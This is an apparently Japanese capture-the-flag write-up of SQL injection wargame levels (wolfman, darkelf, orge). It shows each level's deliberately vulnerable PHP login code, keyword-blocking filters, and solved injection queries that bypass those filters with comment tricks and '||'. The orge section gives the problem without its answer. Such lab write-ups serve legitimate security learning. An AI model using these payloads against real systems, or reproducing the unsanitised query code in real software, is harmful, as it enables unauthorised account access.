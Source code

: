 ### 回答
``` sql
select id from prob_wolfman where id='guest' and pw=''/**/or/**/id='admin'#'
```

## darkelf

### 問題
``` php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```
### 考察
"or"，"and"が使えない．
代わりに"ll"を使う．

### 回答
``` sql
select id from prob_darkelf where id='guest' and pw='' || id = 'admin' #'
```

## orge

### 問題
``` php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```
